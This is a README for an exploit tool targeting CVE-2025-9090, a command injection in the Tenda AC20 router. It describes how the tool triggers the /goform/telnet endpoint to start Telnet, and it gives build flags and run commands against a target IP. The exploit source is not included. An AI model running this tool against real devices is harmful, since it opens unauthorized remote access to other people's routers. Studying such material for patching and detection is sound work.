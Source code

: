 # CVE-2025-9090

**Author: Byte Reaper**
## Description
This exploit targets **CVE-2025-9090**, a command injection vulnerability in the **Tenda AC20 (v16.03.08.12)** router.  
The flaw is in the endpoint `/goform/telnet`, which can be triggered remotely.  
When accessed, it starts the Telnet service on the device, opening ports **23/2323** for remote interaction.  

The program sends a request to the vulnerable endpoint, looks for the response string **"load telnetd success"**, and then tries to connect to the Telnet service to confirm successful exploitation.

## Build
Compile using `gcc`:

```
    gcc exploit.c argparse.c -o CVE-2025-9090 -lcurl
```
## Usage : 
```
    -h, --help            show this help message and exit
    -i, --ip              Enter Target IP
    -c, --cookies         Enter File cookies
    -v, --verbose         Verbose Mode
    -f, --loop=           Number request 

```
## RUN : 
```
    ./CVE-2025-9090 -i <IP> 
    - verbose mode :
    ./CVE-2025-9090 -i <IP> -v
    - number request : 
    ./CVE-2025-9090 -i <IP> -v -f 5 (5 POST endpoint)
    - cookies file :
    ./CVE-2025-9090 -i <IP> -v -f 5 -c [file name] 
```

## LICENSE:
MIT